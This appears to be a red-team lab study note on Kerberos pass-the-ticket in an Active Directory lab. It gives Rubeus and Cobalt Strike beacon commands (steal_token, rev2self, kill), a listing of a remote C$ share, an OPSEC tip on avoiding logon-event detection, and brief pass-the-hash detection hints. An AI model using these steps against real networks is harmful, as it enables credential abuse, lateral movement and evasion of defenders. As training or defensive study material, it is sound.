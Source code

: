 Two opportunities to detect PTH are the R/W handle to LSASS; and looking for the `echo foo > \\.\pipe\bar` pattern in command-line logs.


## Pass the Ticket

---

Pass the ticket is a technique that allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to, or a new one you create.  Accessing a remote resource will then allow that authentication to happen via Kerberos.

1. Create a "sacrificial" logon session that we can pass the TGT into. [[Rubeus#createnetonly]]
2. Pass the TGT into this new LUID. [[Rubeus#ptt]]
3. Impersonate the process we created with `steal_token`
```
beacon> steal_token 4748

beacon> ls \\web.dev.cyberbotic.io\c$
[*] Listing: \\web.dev.cyberbotic.io\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/15/2022 18:50:13   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     08/15/2022 18:58:09   inetpub
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/24/2022 11:02:25   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/31/2022 17:40:32   ProgramData
          dir     08/15/2022 18:31:08   Recovery
          dir     08/30/2022 11:16:24   System Volume Information
          dir     08/30/2022 17:51:08   Users
          dir     08/30/2022 20:19:27   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/01/2022 07:26:41   DumpStack.log.tmp
 384mb    fil     09/01/2022 07:26:41   pagefile.sys
```
4. Use `rev2self` to drop the impersonation.  To destroy the logon session we created, simply kill the process with the `kill` command.
```
beacon> rev2self
beacon> kill 4748
```

**OPSEC**  
  
By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.
